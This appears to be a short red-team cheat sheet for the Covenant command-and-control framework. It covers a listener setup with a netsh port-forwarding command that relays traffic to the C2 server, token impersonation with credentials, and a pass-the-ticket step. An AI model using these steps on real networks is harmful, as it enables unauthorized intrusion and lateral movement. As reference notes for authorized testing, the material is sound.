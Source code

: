 ## Enumeration

+ NetCease
+ [SamRi10](https://gallery.technet.microsoft.com/SAMRi10-Hardening-Remote-48d94b5b)


# Covenant

## Remote listener

Listener:
+ BindAddress -> covenant IP
+ ConnectAddress -> remote IP to be port forwarded
+ port forward:
```
netsh interface portproxy add v4tov4 listenport=80 listenaddress=0.0.0.0 connectport=8080 connectaddress=COVENANT-IP
```

## Impersonate

+ MakeToken USER DOMAIN PASSWORD
+ asktgt /ptt

## PowerShell

+ PowershellImport

